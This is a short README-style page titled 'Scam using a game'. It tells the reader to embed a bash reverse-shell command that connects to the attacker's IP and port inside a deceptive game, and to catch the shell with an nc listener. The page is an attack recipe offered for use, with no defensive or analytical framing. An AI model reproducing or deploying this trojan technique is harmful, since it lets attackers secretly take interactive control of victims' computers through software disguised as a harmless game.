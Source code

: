 #Scam using a game

The command to insert in your scam game is as commented below: <br/>
<code>/bin/bash -i >/dev/tcp/{YOUR_LISTENING_IP_ADDRESS}/{THE_PORT_YOURE_LISTENING_TO} 0<&1 2>&1</code><br/>
The command to use for entry is: <br/>
  <code>nc -lnvp PORT -s YOUR_IP_ADDRESS</code><br/>
Note: The ip address in your file is the same as the ip you'll be listening using.
